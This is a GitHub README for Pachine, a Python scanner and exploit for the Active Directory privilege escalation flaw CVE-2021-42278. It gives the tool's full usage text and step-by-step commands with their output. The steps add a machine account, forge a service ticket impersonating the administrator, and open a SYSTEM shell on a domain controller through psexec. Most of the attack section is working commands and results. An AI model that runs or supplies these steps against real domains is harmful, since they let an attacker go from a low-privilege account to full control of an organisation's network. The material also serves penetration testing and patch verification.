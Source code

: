 # Pachine

Python implementation for CVE-2021-42278 (Active Directory Privilege Escalation).

## Installtion

```bash
$ pip3 install impacket
```

## Usage

```
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

usage: pachine.py [-h] [-scan] [-spn SPN] [-impersonate IMPERSONATE] [-domain-netbios NETBIOSNAME] [-computer-name NEW-COMPUTER-NAME$] [-computer-pass password] [-debug] [-method {SAMR,LDAPS}] [-port {139,445,636}] [-baseDN DC=test,DC=local]
                  [-computer-group CN=Computers,DC=test,DC=local] [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key] -dc-host hostname [-dc-ip ip]
                  [domain/]username[:password]

Pachine - CVE-2021-42278 Scanner & Exploit

positional arguments:
  [domain/]username[:password]
                        Account used to authenticate to DC.

optional arguments:
  -h, --help            show this help message and exit
  -scan                 Scan the DC
  -spn SPN              SPN (service/server) of the target service the service ticket will be generated for
  -impersonate IMPERSONATE
                        target username that will be impersonated (through S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  -domain-netbios NETBIOSNAME
                        Domain NetBIOS name. Required if the DC has multiple domains.
  -computer-name NEW-COMPUTER-NAME$
                        Name of new computer. If omitted, a random DESKTOP-[A-Z0-9]{8} will be used.
  -computer-pass password
                        Password to set to computer. If omitted, a random [A-Za-z0-9]{32} will be used.
  -debug                Turn DEBUG output ON
  -method {SAMR,LDAPS}  Method of adding the computer. SAMR works over SMB. LDAPS has some certificate requirements and isn't always available.
  -port {139,445,636}   Destination port to connect to. SAMR defaults to 445, LDAPS to 636.

LDAP:
  -baseDN DC=test,DC=local
                        Set baseDN for LDAP. If ommited, the domain part (FQDN) specified in the account parameter will be used.
  -computer-group CN=Computers,DC=test,DC=local
                        Group to which the account will be added. If omitted, CN=Computers will be used,

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH
  -no-pass              don't ask for password (useful for -k)
  -k                    Use Kerberos authentication. Grabs credentials from ccache file (KRB5CCNAME) based on account parameters. If valid credentials cannot be found, it will use the ones specified in the command line
  -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256 bits)
  -dc-host hostname     FQDN of the domain controller to target.
  -dc-ip ip             IP of the domain controller to use. Useful if you can't translate the FQDN.specified in the account parameter will be used
                                                                                                                                                                                                                                                              
```

### Demonstration

![](./imgs/attack.png)

### Examples

#### Scanning

To scan a domain controller, use the `-scan` option. Supply the hostname of the DC with the `-dc-host` option.
If you cannot resolve the hostname, you can also supply the IP of the DC with `-dc-ip`. At least `-dc-host` must be supplied.

```bash
$ python3 pachine.py -dc-host dc.predator.local -scan 'predator.local/john:Passw0rd!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Domain controller dc.predator.local is most likely vulnerable
```

#### Exploitation

```bash
$ python3 pachine.py -dc-host dc.predator.local -spn cifs/dc.predator.local -impersonate administrator 'predator.local/john:Passw0rd!'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Added machine account dc with password qwx1TwIGRNcwsBptfDfyw9wubnVBSVij.
[*] Got TGT for dc@PREDATOR.LOCAL
[*] Changed machine account name from dc to DESKTOP-XS5FCF1Y$
[*] Requesting S4U2self
[*] Got TGS for administrator@predator.local for dc@PREDATOR.LOCAL
[*] Changing sname from dc@PREDATOR.LOCAL to cifs/dc.predator.local@PREDATOR.LOCAL
[*] Changed machine account name from DESKTOP-XS5FCF1Y$ to dc
[*] Saving ticket in administrator@predator.local.ccache
```

##### Using the TGS

```bash
$ # Set and verify the CCACHE
$ export KRB5CCNAME=$PWD/administrator@predator.local.ccache
$ klist
Ticket cache: FILE:/opt/Pachine/administrator@predator.local.ccache
Default principal: administrator@predator.local

Valid starting       Expires              Service principal
12/13/2021 23:45:19  12/14/2021 09:45:19  cifs/dc.predator.local@PREDATOR.LOCAL
	renew until 12/14/2021 23:45:19
$ # Use Impacket's Psexec. This will work for 'cifs'
$ impacket-psexec -k -no-pass 'predator.local/administrator@dc.predator.local'
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on dc.predator.local.....
[*] Found writable share ADMIN$
[*] Uploading file GPZNUSse.exe
[*] Opening SVCManager on dc.predator.local.....
[*] Creating service FBle on dc.predator.local.....
[*] Starting service FBle.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.288]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

## Details
Pachine (PAC + Machine) is a Python exploit implementation for [CVE-2021-42278](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-42278). I highly recommend reading Charlie Clark's ([@exploitph](https://twitter.com/exploitph))  great [blog post](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html) for technical details on CVE-2021-42278.

## Authors
- [@ly4k](https://github.com/ly4k)

## Credits
- [@cube0x0](https://github.com/cube0x0)'s C# [implementation](https://github.com/cube0x0/noPac)
- [Charlie Clark @exploitph](https://twitter.com/exploitph)
- [Impacket](https://github.com/SecureAuthCorp/impacket)

## References
- [exploit.ph: CVE-2021-42287/CVE-2021-42278 Weaponisation](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)